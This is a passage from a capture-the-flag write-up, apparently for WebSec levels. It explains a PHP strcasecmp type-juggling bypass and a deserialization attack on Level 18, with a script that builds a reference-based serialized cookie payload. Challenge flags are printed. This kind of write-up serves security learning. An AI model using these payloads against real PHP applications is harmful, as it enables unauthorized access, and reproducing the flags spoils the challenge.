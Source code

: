 The issue here is the `strcasecmp` has an issue when comparing a `string` to another data type, which returns NULL.
NULL == 0 is **true**. So, `flag` needs to be of another data type.

Submitting `flag[]=1` casts it as an array instead of a string.
`WEBSEC{It_seems_that_php_could_use_a_stricter_typing_system}`

## Level 18

Deserialisation problem again.
```php
<?php
include "flag.php";

if (isset ($POST['obj'])) {
    setcookie ('obj', $_POST['obj']);
} elseif (!isset ($_COOKIE['obj'])) {
    $obj = new stdClass;
    $obj->input = 1234;
    setcookie ('obj', serialize ($obj));
}
?>

<?php
    $obj = $_COOKIE['obj'];
    $unserialized_obj = unserialize ($obj);
    $unserialized_obj->flag = $flag;  
    if (hash_equals ($unserialized_obj->input, $unserialized_obj->flag))
        echo '<div class="alert alert-success">Here is your flag: <mark>' . $flag . '</mark>.</div>';   
    else 
        echo '<div class="alert alert-danger"><code>' . htmlentities($obj) . '</code> is an invalid object, sorry.</div>';
?>
```

There's a default `stdClass` set, and is serialised. So submitting empty inputs results in this:

![](../../.gitbook/assets/Pasted%20image%2020240129200214.png)

The interesting part is that the `$flag` object is put into the real `flag` attribute from our serialised.

`hash_equals` is bulletproof, so I have to somehow access `$flag` before the check Fortunately, PHP has pointers! So I can make my input point to the `$flag` variable.

```php
<?php

$obj = new stdClass;
$obj->flag = 'fake';
$obj->input = &$obj->flag;

$cookie = serialize($obj);
echo urlencode($cookie);
?>
//O%3A8%3A%22stdClass%22%3A2%3A%7Bs%3A4%3A%22flag%22%3Bs%3A4%3A%22fake%22%3Bs%3A5%3A%22input%22%3BR%3A2%3B%7D 
```
